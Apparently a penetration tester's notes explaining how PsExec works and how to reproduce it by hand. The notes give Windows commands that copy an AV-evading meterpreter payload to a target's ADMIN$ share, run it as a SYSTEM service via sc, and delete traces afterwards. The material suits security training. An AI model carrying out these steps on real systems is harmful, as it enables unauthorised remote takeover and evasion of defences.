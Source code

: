 ```
NOTE: *PsExec is remotely starting a service on the target machine (called "PSEXECSVC") > 'C:\Windows\PSEXECSVC.exe'. That directory is actually the ADMIN$ share over SMB. So PsExec performs a few steps to get you a shell...*

```
1. Copy a binary to the ADMIN$ share over SMB
2. Create a service on the remote maching pointing to the binary
3. Remotely start the service
4. When exited, stop the service and delete the binary
```

##### Manually PsExec'ing #####

*Assume we have a payload executable we generated with msfvenom and obfuscated with Veil (so AV doesn't flag it)*


###### 1. Copy the binary ######

From origin command prompt, simply copy the binary to the ADMIN$.

```copy evil.exe \\target\$share```

Really though, it could be copied and hidden anywhere on the filesystem.

###### 2. Create a service ######

The Windows [sc command](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490995(v=technet.10)?redirectedfrom=MSDN) is used to query, create, delete, etc Windows services and can be used remotely.

From command prompt, remotely create a service called "meterpreter" that points to uploaded binary:

```sc \\target create meterpreter binPath= "c:\Windows\evil.exe"```

###### 3. Start the Service ######

Start the service and execute the binary.
Note: *When the service starts it will "time-out" and generate an error. That's because our meterpreter binary isn't an actual service binary and won't return the expected response code. That's fine because we just need it to execute once to fire.*

```sc \\target start meterpreter```

Check listener

###### 4. Clean up our mess ######
Migrate out of the evil.exe process and into a more permanent one.
Then we need to delete the binary and stop/delete the remote service.

```del \\target\share\evil.exe```

###### -- NOTES -- ######

By default, services are created and ran as SYSTEM.

When we created the service, we didn't specify a username for it to run as so it defaulted to SYSTEM.

If we really wanted to run the service with different credentials, we could have specified when we created it.

Conversely, we could have specified the ```-s``` option with PsExec to get a SYSTEM shell too.

```